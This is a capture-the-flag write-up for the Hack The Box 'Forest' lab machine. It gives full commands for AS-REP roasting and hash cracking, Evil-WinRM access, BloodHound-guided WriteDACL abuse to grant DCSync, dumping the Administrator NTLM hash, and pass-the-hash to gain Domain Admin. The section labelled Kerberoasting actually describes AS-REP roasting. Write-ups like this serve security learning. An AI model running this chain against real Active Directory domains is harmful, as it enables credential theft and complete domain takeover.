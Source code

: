 ````markdown
# Forest CTF Room Writeup

**Target**: forest.htb  
**Goal**: Initial access via Kerberoasting, privilege escalation through ACL abuse and BloodHound path analysis, final compromise by dumping Domain Admin hash.

---

## 1. Initial Enumeration

Started with SMB enumeration using `enum4linux`:

```bash
enum4linux -a 10.10.10.161
````

Found valid usernames:

```
Administrator
Guest
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

---

## 2. Kerberoasting → Credential Extraction

Queried for SPNs to identify accounts with service tickets using:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request
```

This returned an AS-REP encrypted hash for `svc-alfresco`.

Cracked it with Hashcat:

```bash
hashcat -m 18200 hash.txt rockyou.txt --force
```

✅ Recovered password for `svc-alfresco`: `s3rvice`

---

## 3. Gained Initial Foothold

Logged in using Evil-WinRM with the cracked credentials:

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

📥 Retrieved `user.txt`.

---

## 4. BloodHound Enumeration

Used `bloodhound-python` to gather Active Directory data:

```bash
bloodhound-python -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161 -c All --zip
```

Imported results into BloodHound.

📊 Discovered the following privilege path:

```
svc-alfresco
   ↓ (Member of)
Account Operators
   ↓ (GenericAll)
Exchange Admins
   ↓ (WriteDACL)
Domain Object (DC=htb,DC=local)
```

🔓 Meaning: if we control `Exchange Admins`, we can give **anyone** DCSync rights and dump hashes.

---

## 5. Exploitation via ACL Abuse

### 5.1 Created a new domain user:

```powershell
net user myuser mypass /add /domain
```

### 5.2 Added `myuser` to `Exchange Admins` group:

```powershell
net group "Exchange Admins" myuser /add /domain
```

### 5.3 Logged in as `myuser`:

```bash
evil-winrm -i 10.10.10.161 -u myuser -p mypass
```

---

## 6. Abuse WriteDACL → Grant DCSync Rights

Uploaded and imported PowerView:

```powershell
upload /path/to/PowerView.ps1
. .\PowerView.ps1
```

Built a credential object:

```powershell
$SecPassword = ConvertTo-SecureString 'mypass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\myuser', $SecPassword)
```

Granted DCSync rights to `myuser`:

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "myuser" -Rights DCSync
```

---

## 7. Dumped Domain Hashes

Using Impacket:

```bash
impacket-secretsdump htb.local/myuser:mypass@10.10.10.161
```

✅ Dumped hash for `Administrator`:

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

---

## 8. Domain Admin Access (Pass-the-Hash)

Used the Administrator NTLM hash to gain shell:

```bash
impacket-wmiexec htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

🎉 **Gained full Domain Admin access**

---

## 9. Final Result

🪣 Dumped all domain user hashes
🧠 Took control of the entire Active Directory domain
🏁 Retrieved `root.txt` as Domain Administrator

---

## 🏁 Summary

| Step | Technique                                       |
| ---- | ----------------------------------------------- |
| 1    | Enumerated usernames via SMB                    |
| 2    | Performed AS-REP roasting to crack svc-alfresco |
| 3    | Gained user shell via Evil-WinRM                |
| 4    | Used BloodHound to discover ACL privilege path  |
| 5    | Created user and added to Exchange Admins       |
| 6    | Abused WriteDACL to assign DCSync rights        |
| 7    | Dumped Administrator hash                       |
| 8    | Logged in as Domain Admin (Pass-the-Hash)       |

**A perfect example of a no-exploit, misconfiguration-based full domain compromise.**

```
```
